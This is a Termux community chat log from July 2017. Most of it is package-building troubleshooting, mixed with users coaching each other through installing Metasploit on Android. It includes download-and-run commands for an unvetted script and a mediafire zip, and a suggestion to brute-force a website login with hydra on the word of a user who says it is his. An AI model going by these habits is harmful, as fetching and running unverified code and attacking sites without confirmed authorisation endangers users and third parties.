2017-07-24 12:38:26	gitter	(vishalbiswas) live_the_dream_s: are you sure you tested libgit2 v0.25.1? Because I just upgraded to v0.26.0 and started getting that error

2017-07-24 12:51:38	gitter	(Grimler91) Ben190: you can edit ~/.bashrc instead of $PREFIX/etc/bash.bashrc, otherwise your changes will be overridden on a bash upgrade.

2017-07-24 12:51:51	gitter	(Grimler91) Benl90*

2017-07-24 15:20:50	s1ege	Hello

2017-07-24 17:37:47	rods-tab3	termux:styling  update

2017-07-24 17:39:57	rods-tab3	still no busybox update to 1.27.1

2017-07-24 19:23:36	gitter	(excellproj) Hello! What mine need to build a package Mono (http://mono-project.com) for termux? Thank!

2017-07-24 19:35:58	fornwall	frumpylava: nice presentation!

2017-07-24 19:36:00	fornwall	cd

2017-07-24 19:48:12	live_the_dream	fornwall gdb is segfaulting on arm

2017-07-24 19:50:40	fornwall	live_the_dream: when running 'gdb' directly, or do you actually need to debug something?

2017-07-24 20:01:22	live_the_dream	so yeah any command just like entering l segfaults

2017-07-24 20:01:22	live_the_dream	any command that doesn't exist ...

2017-07-24 20:02:35	fornwall	aha, interesting

2017-07-24 20:03:37	live_the_dream	segfaulting the same way in octave which is why i went full stock playstore from termux.net found something doing the same thing

2017-07-24 20:04:40	live_the_dream	3 devices showing same behaviour ...

2017-07-24 20:05:33	live_the_dream	looks like an io issue

2017-07-24 20:05:39	fornwall	aha, same way in octave? I guess readline is a suspect then!

2017-07-24 20:06:26	live_the_dream	searching current directry for file

2017-07-24 20:06:38	live_the_dream	might also be related to the rustc bit we were having earlier

2017-07-24 23:32:43	gitter	(vishalbiswas) from libgit2-rs Readme: *Currently this library requires libgit2 0.25.1*

2017-07-24 23:33:48	gitter	(vishalbiswas) I guess will need to let cargo build libgit2 then

2017-07-24 23:46:15	live_the_dream	the issue onky exists on arm vish

2017-07-25 01:06:22	live_the_dream	i wonder if octsce and gdb have same bug as gmic because i found a horrible hack to get it to work

2017-07-25 01:45:01	live_the_dream	oh yeah it is the same bug

2017-07-25 01:56:11	live_the_dream	and its such hack fix ...

2017-07-25 02:18:51	ExcellProj	Hello! What mine need to build a package Mono (http://mono-project.com) for termux? Thank!

2017-07-25 11:46:55	gitter	(vishalbiswas) live_the_dream: maybe we should add compiler_rt to the repos

2017-07-25 12:15:18	fidy	I there a default directory for termux and the packages it installs?

2017-07-25 12:23:07	gitter	(vishalbiswas) fidy: ?

2017-07-25 12:39:50	traverseda	fidy, you might be looking for $PREFIX ? Which is generally at /system/ ?

2017-07-25 15:40:48	fidy	Hey all, i know I've asked already so I'm sorry for repeating. Is there a default location packages rc files are stored too?

2017-07-25 18:10:08	live_the_dream	don't think its neccesary as yet @vishalbiswas  . we could add a symlink or aomething...

2017-07-25 19:41:38	live_the_dream	still cant get cargo to work vishalbiswas

2017-07-25 23:21:40	gitter	(vishalbiswas) fidy: they are installed in $PREFIX or /data/data/com.termux/files/usr

2017-07-25 23:28:52	gitter	(vishalbiswas) live_the_dream: you mean with 0.25.1?

2017-07-25 23:29:42	live_the_dream	nah at all

2017-07-25 23:29:51	gitter	(vishalbiswas) ?

2017-07-25 23:30:23	live_the_dream	on arm

2017-07-25 23:30:23	live_the_dream	works fine on aarch64

2017-07-25 23:31:06	gitter	(vishalbiswas) libgit2 >0.25.1 has api breaking changes, should break for all arches, strange

2017-07-25 23:34:49	gitter	(vishalbiswas) how do I cross build crates from git? https://github.com/alexcrichton/git2-rs/commit/4f682bd3a4f7ef0c6546bd9f91e1afe574e24d40

2017-07-26 03:15:41	gitter	(vanvictorlim_twitter) What are the requirements for Termux installation? Is it not compatible with android kitkat v 4.4.2 (unrooted)?

2017-07-26 03:16:13	frumpylava	@vanvictorlim_twitter Android >=5 is required.

2017-07-26 03:19:43	gitter	(vanvictorlim_twitter) @frumpylava No backwards compatibility

2017-07-26 03:20:20	gitter	(vanvictorlim_twitter) ..in the near future?

2017-07-26 03:20:39	gitter	(vanvictorlim_twitter) @frumpylava Thanks anyways.

2017-07-26 04:58:33	StewieAndro	My location: Los Angeles, United States

2017-07-26 06:46:33	live_the_dream	fornwall see my horrible hack for 'fixing' gdb?

2017-07-26 09:33:06	fornwall	live_the_dream: #1159? so that fixes the segmentation fault when issuing any command that gdb does not recognize?

2017-07-26 10:15:18	live_the_dream	yes...

2017-07-26 10:17:01	live_the_dream	its what fixed octave and gmic for me

2017-07-26 10:17:35	fornwall	interesting :). have you found any information what this problem is about?

2017-07-26 10:24:08	live_the_dream	im about to go sleep .. but anyeay

2017-07-26 10:26:24	live_the_dream	not really its likelu to do with something low level

2017-07-26 10:27:11	live_the_dream	tslk bout it tommorow

2017-07-26 10:28:22	fornwall	live_the_dream: ok, catch you later!

2017-07-26 14:06:55	CruX	Hello

2017-07-26 15:04:30	gitter	(ackalker) Hm, discovered something strange with Termux running in the Android Emulator:

2017-07-26 15:04:30	gitter	(ackalker)

2017-07-26 15:04:30	gitter	(ackalker) When I move my mouse scroll wheel (yeah I know that Android doesn't normally support mice) just a tiny little bit, the text scrolls in huge jumps.

2017-07-26 15:04:30	gitter	(ackalker) [full message: https://gitter.im/termux/termux?at=5978e7bec101bc4e3ac298ab]

2017-07-26 15:06:16	gitter	(ackalker) `emulator @Pixel_C_API_23` is what I use to start the emulator. Android Studio etc. updated to latest version in Canary channel.

2017-07-26 19:35:10	live_the_dream	okay fornwall to get an idea of what is going on try one of the 2 steps without the other.... i think some errors and issues on ndk-android repo might be the same thing

2017-07-26 19:37:13	fornwall	live_the_dream: great! I've read them as well, seems to be with stack unwinding, which c++ uses for exceptions

2017-07-26 19:37:14	fornwall	right?

2017-07-26 19:37:26	live_the_dream	yeah

2017-07-26 19:37:31	fornwall	where libc++ seems to need libunwind.a, not the libgcc.a

2017-07-26 19:37:54	fornwall	(at least on 32-bit arm)

2017-07-26 19:39:12	live_the_dream	but i don't know if that fixes evrrything

2017-07-26 19:40:50	fornwall	this seems to cause #1163, "mosh segfaults after each connection loss", on 32-bit arm as well

2017-07-26 19:43:18	live_the_dream	what im doing seems to work around the issue

2017-07-26 19:44:19	live_the_dream	going to get coffee ...

2017-07-26 19:45:29	fornwall	I'm trying out a change that seems to work

2017-07-26 19:45:49	fornwall	it uses the link wrapper from the issue https://android-review.googlesource.com/#/c/389852/

2017-07-26 19:46:23	fornwall	to add --exclude-libs,libgcc.a as a linker flag, which should avoid symbols from libgcc.a being exported

2017-07-26 19:47:25	live_the_dream	i tried something like thst on octsve and libm.so stsrting complaining

2017-07-26 19:47:27	fornwall	and also sets up $PREFIX/lib/libstdc++.so as a linker script, containing 'INPUT(-lunwind -lc++_shared)', instead of being a symlink to libc++_shared.so, on arm

2017-07-26 19:49:24	live_the_dream	like unwind call in gdb

2017-07-26 19:49:32	live_the_dream	but that could be my tool chain

2017-07-26 19:50:25	live_the_dream	im only using gfortran though

2017-07-26 19:50:25	live_the_dream	so clang + gfortran

2017-07-26 19:52:48	fornwall	I'll push my changes in a minute so you can try it out

2017-07-26 19:53:28	live_the_dream	when they said libc++ isn't stable they were right but i think it was the right call to use new lib anyway

2017-07-26 20:09:06	fornwall	live_the_dream: just pushed a commit

2017-07-26 20:09:26	fornwall	can you update to the new 8.0-1 version of gdb and confirm that it works better now?

2017-07-26 20:09:54	fornwall	when building yourself, you probably need to run ./clean.sh to get a clean build setup

2017-07-26 20:27:01	live_the_dream	you might want to add a line deleting notmuch.h from includes before building it since rsidual notmuch.h breaks build

2017-07-26 20:28:01	live_the_dream	no need for a new rev number its just a convienence

2017-07-26 20:33:03	fornwall	ah, if the already installed notmuch.h is from an older version?

2017-07-26 20:36:09	live_the_dream	yeag

2017-07-26 21:10:44	live_the_dream	k gdb works can confirm building it here

2017-07-27 00:55:47	gitter	(vishalbiswas) hi

2017-07-27 01:00:30	live_the_dream	ello

2017-07-27 01:49:41	sdrausty	vishalbiswas: Hi. I finally am modifying https://github.com/sdrausty/buildAPKs as you suggested. Thanks for the suggestion. 

2017-07-27 02:21:59	gitter	(rnauber) @fornwall  is there a specific reason, why termux-boot is not yet on fdroid?

2017-07-27 03:18:25	sdrausty	rnauber: I tried building it on device: 5 problems (4 errors, 1 warning)

2017-07-27 03:56:29	gitter	(Auxilus) @vishalbiswas https://pastebin.com/JgiBsBeh

2017-07-27 03:56:33	gitter	(Auxilus) Never had this error

2017-07-27 04:27:50	Auxilus	.

2017-07-27 04:30:01	Auxilus	@kuburan

2017-07-27 06:11:29	gitter	(fornwall) @rnauber no, just haven't done it, I'll release it later today!

2017-07-27 06:12:38	gitter	(Auxilus) What termux-boot ?

2017-07-27 07:12:50	gitter	(Techzindia) Hello!!

2017-07-27 07:13:09	gitter	(Auxilus) Hey man !

2017-07-27 07:13:46	gitter	(Auxilus) @Techzindia you had problem with

2017-07-27 07:14:36	gitter	(Auxilus) Meterpreter ri8 ?

2017-07-27 07:14:50	gitter	(Auxilus) Can you tell me what ip are you using ?

2017-07-27 07:15:00	gitter	(Techzindia) Solved

2017-07-27 07:15:10	gitter	(Auxilus) Cool

2017-07-27 07:15:17	gitter	(Hax4us) How techzindia

2017-07-27 07:15:44	gitter	(Techzindia) I make a Zip for Network_interface0.0.1

2017-07-27 07:16:15	gitter	(Hax4us) Bro...plz make a fresh tutorial on this ..like video....can u make....plz..dont say no...

2017-07-27 07:17:17	gitter	(Techzindia)  wget http://download957.mediafire.com/8u9282lyuajg/56tbcwc1jlhcrrr/TechZindia.zip

2017-07-27 07:17:39	gitter	(Techzindia) Download in metasploit folder

2017-07-27 07:17:42	gitter	(Techzindia) And

2017-07-27 07:17:53	gitter	(Techzindia) unzip and Install

2017-07-27 07:20:07	gitter	(Hax4us) Kk...try karta hu..☺

2017-07-27 07:25:55	gitter	(Auxilus) Don't unzip anything in metasploit dir

2017-07-27 07:27:29	gitter	(Hax4us) But techzindia...said..well..OK..I don't unzip

2017-07-27 07:28:36	gitter	(Auxilus) Unzip outside metasploit dir

2017-07-27 07:29:42	gitter	(Techzindia) @Auxilus  ya.... sorry i not mention...

2017-07-27 07:34:14	gitter	(Auxilus) Anyone got solution for `git sources unchecked error `?

2017-07-27 07:40:22	gitter	(Techzindia) No idea

2017-07-27 07:42:07	gitter	(Techzindia) But Nokogiri error come ... every time in my friend case..

2017-07-27 07:43:04	gitter	(Hax4us) Yes i have sol...@Auxilus

2017-07-27 07:43:11	gitter	(Auxilus) How

2017-07-27 07:43:45	gitter	(Hax4us) edit the gemfile.locale

2017-07-27 07:43:46	gitter	(Hax4us) And

2017-07-27 07:43:48	gitter	(Auxilus) @Techzindia nokogiri must be installed with `gem install nokogiri -- --use-system-libraries`

2017-07-27 07:44:00	gitter	(Hax4us) At last u

2017-07-27 07:44:50	gitter	(Hax4us) will see a line like http://guthub.com/timwr/network_interface ....just clear the line

2017-07-27 07:45:07	gitter	(Hax4us) Means whole...line..

2017-07-27 07:45:14	gitter	(Auxilus) Which line ?

2017-07-27 07:45:26	gitter	(Techzindia)  @Auxilus i already try with

2017-07-27 07:45:45	gitter	(Techzindia)  nokogiri -- --use-system-libraries

2017-07-27 07:46:00	gitter	(Auxilus) `gem uninstall nokogiri` then install again

2017-07-27 07:46:25	gitter	(Hax4us) @Auxilus  bro...wait I m sending pic

2017-07-27 07:48:29	gitter	(Hax4us) Can we share pic in this app

2017-07-27 07:48:32	gitter	(Hax4us) Or not

2017-07-27 07:48:43	gitter	(Hax4us) Is there any option

2017-07-27 07:49:35	gitter	(Auxilus) No u can't

2017-07-27 07:49:38	gitter	(Auxilus) :P

2017-07-27 07:51:05	gitter	(Hax4us) Well...see...@Auxilus..u can see this line at last of gemfile.locale...just clear whole..line..from create custom group to end.......# Create a custom group

2017-07-27 07:51:05	gitter	(Hax4us) group :local do

2017-07-27 07:51:05	gitter	(Hax4us)   gem 'network_interface', :git => "https://github.com/timwr/network_interface.#git", :branch => "master"

2017-07-27 07:51:05	gitter	(Hax4us) end

2017-07-27 07:51:50	gitter	(Auxilus) K

2017-07-27 07:51:53	gitter	(Auxilus) I'll try

2017-07-27 07:52:43	gitter	(Hax4us) I bypasses this...but still..I have not Metasploit😑😢

2017-07-27 08:04:45	gitter	(Auxilus) There was a time , a time long ago , I had idea to run metasploit in termux , I asked @vishalbiswas , he instructed me , I had only `two` errors , 1`nokogiri` 2`network_interface` , I fixed it , boom, I'm hackin' and exploiting in hood !!

2017-07-27 08:05:44	gitter	(Auxilus) N grpc error , no git checked out error no segfault error !

2017-07-27 08:06:37	gitter	(Hax4us) Well...I have meta in my rooted phone...but I want to run in non rooted phone....

2017-07-27 08:07:31	gitter	(Hax4us) Bro @Auxilus plz make a video on this..plz bro...

2017-07-27 08:19:59	gitter	(Auxilus) Well we'll see

2017-07-27 08:27:06	gitter	(Hax4us) I will wait....@Auxilus

2017-07-27 08:29:56	gitter	(Auxilus) You are most welcome to do that ...

2017-07-27 08:45:23	frumpylava	ugh.... 90% of all errors I have when building packages are "cannot find -lncurses"

2017-07-27 08:47:59	gitter	(Ashish882) Hi

2017-07-27 08:49:37	gitter	(Ashish882) Tell

2017-07-27 08:50:21	frumpylava	Trying to build moria. But it's build system is ancient.

2017-07-27 08:52:02	gitter	(Ashish882) How I can remove * from *ifreq in network_interface

2017-07-27 08:53:37	gitter	(Hax4us) 😂bro leave..... I m gonna mad....I waste my 2gb data for this....but still  have errors....I happy with my meta in rooted phone...I will wait for @Auxilus video....

2017-07-27 08:54:46	gitter	(Ashish882) Bro tell me how you bypass from it

2017-07-27 09:05:31	allkhor	Hi people, anyone have a problem with installing  python 3.6.2 ? Can't find any issue on github related to my problem. Termux freezes after message: Setting up pip...

2017-07-27 09:05:35	gitter	(Techzindia)  I install metasploit without root..no network_interface error

2017-07-27 09:06:31	gitter	(Techzindia) But in some device only one error was comming "network_interface" and github check

2017-07-27 09:06:46	gitter	(Techzindia) wget http://download957.mediafire.com/9yxeh3phagkg/56tbcwc1jlhcrrr/TechZindia.zip

2017-07-27 09:07:38	gitter	(Techzindia) Any one Test My TechZindia.zip for fixing network_interface error

2017-07-27 09:10:36	frumpylava	allkhor: Does it freeze forever? What freezes, the process or the UI of Termux?

2017-07-27 09:15:07	allkhor	frumpylava: termux stoped response, ctrl+c not work.. last line Setting up pip...  scroll worked.

2017-07-27 09:17:09	allkhor	frumpylava: device meizu m2 mini, android 5.1. Before update python to version 3.6.2 all worked correct.

2017-07-27 09:18:57	frumpylava	allkhor: Try uninstalling python and installing it again.

2017-07-27 09:23:07	allkhor	frumpylava: i tried uninstall termux, and install it on another meizu m2 mini(have a 2 identical phone), not worked, but python 2 installed correct..

2017-07-27 09:25:58	frumpylava	allkhor: hmm... Don't know. You should probably open an issue on github about it.

2017-07-27 09:26:42	allkhor	frumpylava: ok, thank you )

2017-07-27 10:45:29	frumpylava	Anybody willing to test a build of moria? It seems to work, though I have never played it myself, so I can't really tell.

2017-07-27 16:02:29	necklace	Yo I get a "undefined reference to `getsubopt'" when trying to compile dfc on Termux.. really weird since getsubopt is in stdlib.h

2017-07-27 18:12:25	live_the_dream	getsubopt(char**, char* const*, char**) __INTRODUCED_IN(26);

2017-07-27 18:13:27	live_the_dream	we use 21 as its 5.0 devices

2017-07-27 18:14:28	live_the_dream	so to use that i think you have to define __ANDROID_API__=26 and be on rom that supports that apo level

2017-07-27 18:14:33	live_the_dream	api

2017-07-27 18:15:46	live_the_dream	23 android 6.0

2017-07-28 00:04:48	anhj	hi there

2017-07-28 01:14:21	live_the_dreams	is cmake on device hanging on arm for anyone else when you try to build?

2017-07-28 04:31:18	kalong	)

2017-07-28 08:02:35	fornwall	live_the_dreams: hm, cmake perhaps needs to be rebuilt after the arm c++ fixes

2017-07-28 08:02:47	fornwall	I'll try it out

2017-07-28 08:07:56	gitter	(Auxilus) Nope

2017-07-28 08:08:18	gitter	(Auxilus) Just follow network_interface installion steps on wiki

2017-07-28 08:09:14	live_the_dreams	already did it was buil5

2017-07-28 08:11:22	gitter	(kuburan) Yes @Ashish882 that was very powerfull tool. If you have the right wordlist.

2017-07-28 08:11:52	gitter	(Ashish882) @kuburan  I need help for that can you

2017-07-28 08:12:17	live_the_dreams	i wonder if my hack turns out the superior solution :)

2017-07-28 08:13:00	gitter	(Auxilus) And you are talking about ?

2017-07-28 08:13:06	gitter	(Ashish882) I want to crack pass of my own site http://knighthood.ml/hack/

2017-07-28 08:13:17	gitter	(Ashish882) Testing purpose

2017-07-28 08:13:37	gitter	(Ashish882) But I don't know to to crack

2017-07-28 08:14:06	gitter	(Ashish882) Because it need temper data

2017-07-28 08:14:14	live_the_dreams	password stuff is either fast of very slow....

2017-07-28 08:14:14	live_the_dreams	or

2017-07-28 08:15:25	gitter	(Auxilus) You can use tools like `hydra`

2017-07-28 08:17:20	live_the_dreams	also fornwall ndk 15c .. is available

2017-07-28 08:18:36	gitter	(Ashish882) Yes but what I put in failed login

2017-07-28 08:19:22	gitter	(Auxilus) WTH

2017-07-28 08:19:22	gitter	(Auxilus)

2017-07-28 08:19:38	gitter	(Auxilus) You just filtered all ports

2017-07-28 08:19:49	gitter	(Auxilus) I was about to perform brute Force

2017-07-28 08:20:44	gitter	(Ashish882) Tell me blow with command

2017-07-28 08:35:36	gitter	(suryapoo) Auxi!!!

2017-07-28 08:35:37	gitter	(suryapoo) I'm on WiFi man

2017-07-28 08:35:52	gitter	(suryapoo) How to install MSF on termux

2017-07-28 08:38:06	gitter	(Auxilus) Here` cd $HOME && wget https://Auxilus.github.io/metasploit.sh && chmod 777 metasploit.sh && termux-fix-shebang metasploit.sh && ./metasploit.sh`

2017-07-28 08:38:41	gitter	(suryapoo) Dude what's $HOME

2017-07-28 08:39:19	gitter	(Auxilus) Home for

2017-07-28 08:39:19	gitter	(Auxilus)

2017-07-28 08:39:23	gitter	(Auxilus) *dir

2017-07-28 08:40:09	gitter	(suryapoo) Is it like this 1) $HOME 2)wget 3)chmod 777 4) termux-fix-shebang... 5)./metasploit.sh

2017-07-28 08:40:40	live_the_dreams	there is no place like home $HOME ~

2017-07-28 08:40:50	gitter	(Auxilus) 1) CD $HOME

2017-07-28 08:41:05	gitter	(Auxilus) NOT CD cd

2017-07-28 08:41:06	gitter	(Auxilus) Then wget

2017-07-28 08:41:13	gitter	(suryapoo) Okk

2017-07-28 08:41:17	gitter	(suryapoo) Let's try

2017-07-28 08:41:46	live_the_dreams	haha

2017-07-28 08:42:03	gitter	(Auxilus) then chmod the metasploit.sh

2017-07-28 08:42:06	gitter	(Auxilus) Then execute

2017-07-28 08:42:18	gitter	(suryapoo) wget: not an http or ftp url: https://Auxilus.github.io/metasploit.sh

2017-07-28 08:42:26	gitter	(suryapoo) This is what I got

2017-07-28 08:42:46	gitter	(Auxilus) `apt install wget`

2017-07-28 08:43:18	gitter	(Auxilus) Then wget

2017-07-28 08:43:49	gitter	(suryapoo) Alright

2017-07-28 08:44:20	gitter	(Auxilus) Works ?

2017-07-28 08:44:52	gitter	(suryapoo) Nope

2017-07-28 08:44:53	gitter	(suryapoo) What am I doing wrong

2017-07-28 08:45:13	gitter	(Auxilus) You did apt install wget ?

2017-07-28 08:46:20	gitter	(suryapoo) Yea

2017-07-28 08:46:37	gitter	(suryapoo) Den also ..the same error

2017-07-28 08:46:43	gitter	(Auxilus) Do `wget https://Auxilus.github

2017-07-28 08:46:59	gitter	(Auxilus) .ik/metasploit.sh`

2017-07-28 08:49:12	gitter	(suryapoo) wget https://Auxilus.github.ik/metasploit.sh

2017-07-28 08:49:12	gitter	(suryapoo) wget: not an http or ftp url: https://Auxilus.github.ik/metasploit.sh

2017-07-28 08:49:54	gitter	(Auxilus) Wait...

2017-07-28 08:54:34	gitter	(Auxilus) Wait man

2017-07-28 08:55:36	gitter	(suryapoo) Yea...

2017-07-28 08:56:08	gitter	(Auxilus) Wait bro

2017-07-28 09:03:44	gitter	(Auxilus) localhost : wget https://Auxilus.github.io/metasploit.sh

2017-07-28 09:03:44	gitter	(Auxilus) --2017-07-28 18:33:20--  https://auxilus.github.io/metasploit.sh

2017-07-28 09:03:44	gitter	(Auxilus) Resolving auxilus.github.io... 151.101.113.147, 2a04:4e42:1b::403

2017-07-28 09:03:44	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=597b3630614889d475fa9929]

2017-07-28 09:03:48	gitter	(Auxilus) Works for me

2017-07-28 09:03:55	gitter	(Auxilus) Link is good

2017-07-28 09:05:10	gitter	(Auxilus) @suryapoo can you execute ` curl -LO https://Auxilus.github.io/metasploit.sh` ?

2017-07-28 09:08:41	gitter	(suryapoo) @Auxilus ch packages:   pkg search <query>

2017-07-28 09:08:41	gitter	(suryapoo) $ curl -LO https://Auxilus.github.io/metasploit.sh

2017-07-28 09:08:41	gitter	(suryapoo)   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current

2017-07-28 09:08:41	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=597b375876a757f808547db9]

2017-07-28 09:09:13	gitter	(Auxilus) Now `ls`

2017-07-28 09:09:21	gitter	(Auxilus) Is there metasploit.sh file ?

2017-07-28 09:10:20	gitter	(suryapoo) Yes!!!!!!

2017-07-28 09:10:26	gitter	(suryapoo) But it was quick

2017-07-28 09:10:32	gitter	(Auxilus) Lol

2017-07-28 09:10:48	gitter	(Auxilus) Script is lil in size

2017-07-28 09:10:48	gitter	(Auxilus) Now chmod 777 metasploit.sh

2017-07-28 09:11:01	gitter	(Auxilus) Are you in ./?

2017-07-28 09:11:26	gitter	(Auxilus) Are you in home dir ?

2017-07-28 09:12:13	gitter	(suryapoo) Home

2017-07-28 09:12:29	gitter	(Auxilus) Done chmod ?

2017-07-28 09:12:38	gitter	(suryapoo) Done

2017-07-28 09:12:47	gitter	(suryapoo) chmod 777 metasploit.sh

2017-07-28 09:12:49	gitter	(suryapoo) Done

2017-07-28 09:13:10	gitter	(Auxilus) Now` ./metasploit.sh`

2017-07-28 09:15:41	gitter	(suryapoo) Its downloading from termux. sources

2017-07-28 09:16:09	gitter	(suryapoo) Omg I'm about to cry when I see MSF > :smile:

2017-07-28 09:16:21	gitter	(Auxilus) Ye , it's installing all requirements

2017-07-28 09:16:29	gitter	(Auxilus) It will take a lil longer

2017-07-28 09:16:36	gitter	(Auxilus) Don't cancel it till it's done

2017-07-28 09:20:57	gitter	(Auxilus) @al3xv3gas is it done ?

2017-07-28 09:21:09	gitter	(suryapoo) Yuppppppppppppppppp

2017-07-28 09:21:09	gitter	(Auxilus) Cool

2017-07-28 09:21:19	gitter	(Auxilus) ./msfconsole working ?

2017-07-28 09:21:58	gitter	(Auxilus) ?

2017-07-28 09:23:07	gitter	(suryapoo) Its downloading requirements

2017-07-28 09:23:17	gitter	(Auxilus) K

2017-07-28 09:23:30	gitter	(suryapoo) BTW..is termux a complete Linux bash shell?

2017-07-28 09:23:39	gitter	(suryapoo) Means I can learn bash on termux?

2017-07-28 09:23:43	gitter	(Auxilus) Sure

2017-07-28 09:24:09	gitter	(suryapoo) Gr8888!!

2017-07-28 09:24:32	gitter	(suryapoo) Thank god I came on bitter

2017-07-28 09:24:37	gitter	(suryapoo) Gitter*

2017-07-28 09:24:41	gitter	(suryapoo) Bloody keyboard

2017-07-28 09:24:53	gitter	(Auxilus) When it's done it'll say metasploit installed

2017-07-28 09:27:20	gitter	(suryapoo) Waiting for that .......

2017-07-28 09:27:42	gitter	(suryapoo) BTW ..I had made a Python module ..called blackhat..

2017-07-28 09:28:07	gitter	(Auxilus) And it does ?

2017-07-28 09:28:20	gitter	(suryapoo) Which if u run on a machine.. It will make unlimited directories ..till it covers up all the space

2017-07-28 09:28:50	gitter	(suryapoo) Made that while was bathing.. Stupidity :D

2017-07-28 09:29:14	gitter	(Auxilus) :p

2017-07-28 09:29:28	gitter	(Auxilus) I made same script using batch file program

2017-07-28 09:30:04	gitter	(suryapoo) Niceeeeeeeeeeee

2017-07-28 09:30:16	gitter	(suryapoo) I want to learn bash from u Linux pros

2017-07-28 09:30:32	gitter	(suryapoo) U all like crazy programmers.. In a good way

2017-07-28 09:30:58	gitter	(Auxilus) M not a pro :package: you haven't seen @vishalbiswas @fornwall work yet

2017-07-28 09:32:31	live_the_dreams	im insulted

2017-07-28 09:32:45	gitter	(Auxilus) :p

2017-07-28 09:32:51	gitter	(Auxilus) I can't @ you

2017-07-28 09:32:58	gitter	(suryapoo) Fornwall made termux....says it all

2017-07-28 09:33:00	gitter	(Auxilus) You are on IRC

2017-07-28 09:33:01	gitter	(Auxilus)

2017-07-28 09:33:16	gitter	(suryapoo) Vishal is a goddamn pro...I have seen u guys on github

2017-07-28 09:33:18	gitter	(Auxilus) Ye but live is one of main men

2017-07-28 09:33:42	gitter	(suryapoo) I want to be like u guys man

2017-07-28 09:34:06	gitter	(suryapoo) A stupid commerce student with an interest in programming.. What a mismatch!!

2017-07-28 09:35:11	gitter	(Auxilus) You can develop software s like tally with yo skill s , companies will definitely hire you

2017-07-28 09:36:41	gitter	(suryapoo) Auxi..got an error on network interface

2017-07-28 09:37:17	gitter	(suryapoo) installing Network_interface

2017-07-28 09:37:17	gitter	(suryapoo) ERROR:  Gem 'etwork_interface' not installed nor fetchable.

2017-07-28 09:37:17	gitter	(suryapoo) ./metasploit.sh: 26: cd: can't cd to network_interface-0.0.1

2017-07-28 09:37:17	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=597b3e0cbc464729743286b4]

2017-07-28 09:37:42	gitter	(Auxilus) Else done ?

2017-07-28 09:38:20	gitter	(suryapoo) The batch file stopped I guess

2017-07-28 09:38:23	gitter	(suryapoo) No '$'

2017-07-28 09:38:45	gitter	(suryapoo) No..its going on ..wait

2017-07-28 09:41:56	gitter	(Auxilus) You might have already insta

2017-07-28 09:41:56	gitter	(Auxilus) Network interfere

2017-07-28 09:44:44	gitter	(Auxilus) @suryapoo  done ?

2017-07-28 09:44:59	gitter	(suryapoo) Its doing it's thing

2017-07-28 09:45:24	gitter	(suryapoo) Fetching various ruby gems..I just saw metasploit payload ... :)

2017-07-28 09:45:38	gitter	(Auxilus) Nice...

2017-07-28 09:48:18	gitter	(suryapoo) Performing shebang fix

2017-07-28 09:48:19	gitter	(suryapoo) What's that

2017-07-28 09:49:06	gitter	(suryapoo) ./msfconsole

2017-07-28 09:49:06	gitter	(suryapoo) bash: ./msfconsole: No such file or directory

2017-07-28 09:50:22	gitter	(Auxilus) cd in metasploit dir

2017-07-28 09:51:49	gitter	(Auxilus) @suryapoo

2017-07-28 09:58:34	gitter	(suryapoo) Okiiiii

2017-07-28 09:58:53	gitter	(Auxilus) Or do this

2017-07-28 09:59:00	gitter	(Auxilus) Edit metasploit.sh

2017-07-28 09:59:07	gitter	(Auxilus) Remove --depth 1

2017-07-28 09:59:17	gitter	(suryapoo) And?

2017-07-28 09:59:26	gitter	(Auxilus) And save

2017-07-28 09:59:32	gitter	(Auxilus) Then ./metasploit.sh

2017-07-28 09:59:49	gitter	(Auxilus) Before that emoji metasploit-framework -rf

2017-07-28 09:59:56	gitter	(Auxilus) The old 1

2017-07-28 10:00:11	gitter	(suryapoo) OK

2017-07-28 10:00:21	gitter	(suryapoo) So remove the metasploit-framework dir

2017-07-28 10:00:29	gitter	(suryapoo) And edit the metasploit. sh

2017-07-28 10:00:38	gitter	(Auxilus) Then run again

2017-07-28 10:01:27	gitter	(suryapoo) Okiii

2017-07-28 10:01:34	gitter	(suryapoo) Where is --depth 1?

2017-07-28 10:02:05	gitter	(Auxilus) It installs latest release

2017-07-28 10:05:24	gitter	(suryapoo) Cloning--------

2017-07-28 10:05:57	gitter	(Auxilus) K

2017-07-28 10:06:38	gitter	(suryapoo) Which programming language should i learn to get a job ?

2017-07-28 10:06:46	gitter	(suryapoo) Pls dont say java.

2017-07-28 10:06:54	gitter	(suryapoo) im an amateur

2017-07-28 10:07:27	gitter	(Auxilus) Language is matter of what the problem is

2017-07-28 10:07:44	gitter	(Auxilus) Lol , event I can't code in Java

2017-07-28 10:07:44	gitter	(Auxilus)

2017-07-28 10:09:38	gitter	(suryapoo) I loved python..but hold it for now

2017-07-28 10:09:44	gitter	(suryapoo) Now leanring JS

2017-07-28 10:09:47	gitter	(suryapoo) Nodejs

2017-07-28 10:10:10	gitter	(suryapoo) But im not sure if i can get a job on that

2017-07-28 10:14:34	gitter	(Ashish882) Hi

2017-07-28 10:14:59	gitter	(ackalker) Random tip (haven't seen it documented anywhere):

2017-07-28 10:15:00	gitter	(ackalker)

2017-07-28 10:15:00	gitter	(ackalker) To make Termux' build cache directory accessible from outside of  the Docker container (to ease patching and/or developing packages which require messing with the source files directly):

2017-07-28 10:15:00	gitter	(ackalker) [full message: https://gitter.im/termux/termux?at=597b46e3a7b406262d3b69b8]

2017-07-28 10:15:50	gitter	(suryapoo) Oooioooo

2017-07-28 10:19:08	gitter	(Auxilus) @suryapoo it works ?

2017-07-28 10:21:12	gitter	(suryapoo) Its installing gems

2017-07-28 10:21:24	gitter	(suryapoo) 5 mins more i guess.

2017-07-28 10:21:47	gitter	(Auxilus) Okay ,

2017-07-28 10:21:58	gitter	(Auxilus) It gave any error till now ?

2017-07-28 10:22:09	gitter	(suryapoo) Network interface

2017-07-28 10:23:04	gitter	(Auxilus) We will install it manually then

2017-07-28 10:23:39	gitter	(suryapoo) Yea...

2017-07-28 10:24:06	gitter	(suryapoo) cmon metasploit...i have waited for u for such a long time

2017-07-28 10:24:16	gitter	(suryapoo) I was on nethunter (kali)

2017-07-28 10:24:31	gitter	(suryapoo) Good experience

2017-07-28 10:24:31	gitter	(Auxilus) Here , open new console and put `gem list|grep network`

2017-07-28 10:24:56	benl90	I have question,is there anyway to make ubuntu repo works on termux? thanks

2017-07-28 10:25:33	frumpylava	benl90: no

2017-07-28 10:26:02	frumpylava	The file structure of termux is very different than ubuntu

2017-07-28 10:26:03	benl90	frumpylava: so in the end I need the termux repo in order to make termux work as it is?
